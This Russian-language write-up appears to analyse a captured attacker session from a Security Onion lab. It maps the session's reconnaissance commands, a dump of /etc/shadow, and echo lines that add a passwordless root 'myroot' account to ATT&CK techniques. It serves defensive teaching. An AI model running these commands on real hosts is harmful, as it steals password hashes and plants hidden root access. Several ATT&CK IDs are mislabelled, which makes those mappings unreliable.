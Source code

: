 # Разбор захваченного сеанса (Security Onion)

> **Легенда формата**  
> `SRC:` — команда, отправленная злоумышленником  
> `DST:` — ответ системы  

---



## 1. Получение интерактивного root-шелла
DST: uid=0(root) gid=0(root)

*Позиция в ATT&CK:* **T1059 — Command-Line Interface**  
Злоумышленник уже имеет UID 0, то есть полный контроль над хостом **metasploitable**.

---

## 2. Подготовка фона
SRC: nohup >/dev/null 2>&1

Команда-заглушка: запуск будущих процессов в фоне с перенаправлением вывода.  
**Цель:** скрыть артефакты в логах и обеспечить устойчивость после выхода.

---

## 3. Проверка связи / установка маркера
SRC: echo qeQCrFL4JOPD9Kzc
DST: qeQCrFL4JOPD9Kzc

Одноразовый «бейкон» — быстрая проверка, что команды исполняются, либо метка для последующей корреляции сетевого трафика.

---

## 4. Подтверждение прав и разведка окружения
SRC: whoami → DST: root
SRC: hostname → DST: metasploitable
SRC: ifconfig → DST: eth0 … inet 209.165.200.235/27

*Позиции в ATT&CK:*

| Техника | ID |
|---------|----|
| System Owner/User Discovery | **T1033** |
| System Information Discovery | **T1082** |
| Network Interface Enumeration | **T1049** |

Злоумышленник убеждается, что находится на нужной машине, и фиксирует IP-адрес для последующего доступа или туннелей.

---

## 5. Дамп хешей паролей
SRC: cat /etc/shadow

*Позиция:* **T1003 — OS Credential Dumping**  
Собран полный список учётных записей; хеши можно отправить во внешнюю систему для off-line взлома.

---

## 6. Закладка бэкдора через «теневые» учётные записи
SRC: echo "myroot::14747:0:99999:7:::" >> /etc/shadow
SRC: echo "myroot:x:0:0:root:/root:/bin/bash" >> /etc/passwd

*Позиции:* **T1098 — Account Manipulation**, **T1112 — Modify System Files**

| Файл | Запись | Эффект |
|------|--------|--------|
| `/etc/passwd` | `myroot:x:0:0:root:/root:/bin/bash` | Логическая привязка имени к UID/GID 0 (права root) |
| `/etc/shadow` | `myroot::…` (пустой пароль) | Авторизация возможна без пароля или с любым, если PAM трактует пустой хеш как *null-auth* |

Злоумышленник получает **устойчивый, малозаметный root-доступ**, даже если исходный пароль root будет сменён.

---

## 7. Завершение сеанса
SRC: exit

После внесения изменений атакующий выходит: это минимизирует «шум» в логах и следы активности.

